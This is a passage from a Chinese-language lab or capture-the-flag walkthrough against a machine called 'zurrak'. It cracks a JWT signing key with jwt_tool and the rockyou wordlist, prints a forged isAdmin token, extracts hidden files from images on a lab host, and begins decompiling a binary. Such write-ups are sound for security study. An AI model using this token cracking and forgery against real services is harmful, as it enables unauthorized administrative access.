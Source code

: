 <img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404071800971.png" alt="image-20240407144004986" style="zoom:50%;" />



### 伪造JWT

存在`isAdmin`字段，伪造一下请求：

![image-20240407144140080](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404071800972.png)

还差一个密钥，爆破一下：

```bash
python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJlbWFpbCI6ImludGVybmFsQHp1cnJhay5odGIiLCJpc0FkbWluIjpmYWxzZSwiaWF0IjoxMzU2OTk5NTI0LCJuYmYiOjEzNTcwMDAwMDB9.ufkwBsusc4IEYCCRszCbcSEv6irCtUSx-Uq08OThxso -C -d /usr/share/wordlists/rockyou.txt
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404071800973.png" alt="image-20240407145257365" style="zoom:50%;" />

尝试伪造一下请求：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404071800974.png" alt="image-20240407145428692" style="zoom:50%;" />

```text
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJlbWFpbCI6ImludGVybmFsQHp1cnJhay5odGIiLCJpc0FkbWluIjp0cnVlLCJpYXQiOjEzNTY5OTk1MjQsIm5iZiI6MTM1NzAwMDAwMH0.gBpFlpNfVUBlv9HuqXqVzRtaHR265PFagumX_OAKCMY
```

尝试使用这个token进行登录：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404071800975.png" alt="image-20240407145726033" style="zoom:50%;" />

### 图片隐写

中间提示存在隐写了，尝试提取一下：

```apl
http://172.20.10.3/zurrakhorse.jpg
http://172.20.10.3/zurraksnake.jpg
http://172.20.10.3/zurrakhearts.jpg
```

下载一下，发现都藏了东西，爆破一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404071800976.png" alt="image-20240407150438397" style="zoom: 50%;" />

放到本地来，反编译一下：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v4; // [rsp+20h] [rbp-60h]
  __int64 v5; // [rsp+28h] [rbp-58h]
  __int64 v6; // [rsp+30h] [rbp-50h]
  __int64 v7; // [rsp+38h] [rbp-48h]
  __int64 v8; // [rsp+40h] [rbp-40h]
  __int64 v9; // [rsp+48h] [rbp-38h]
  char v10; // [rsp+50h] [rbp-30h]

  _main(*(_QWORD *)&argc, argv, envp);
  LODWORD(v9) = 115;
  LODWORD(v8) = 116;
  LODWORD(v7) = 97;
  LODWORD(v6) = 99;
  LODWORD(v5) = 101;
  LODWORD(v4) = 118;
  c(&v10, 105i64, 108i64, 111i64, v4, v5, v6, v7, v8, v9);
  printf("classified\n");
```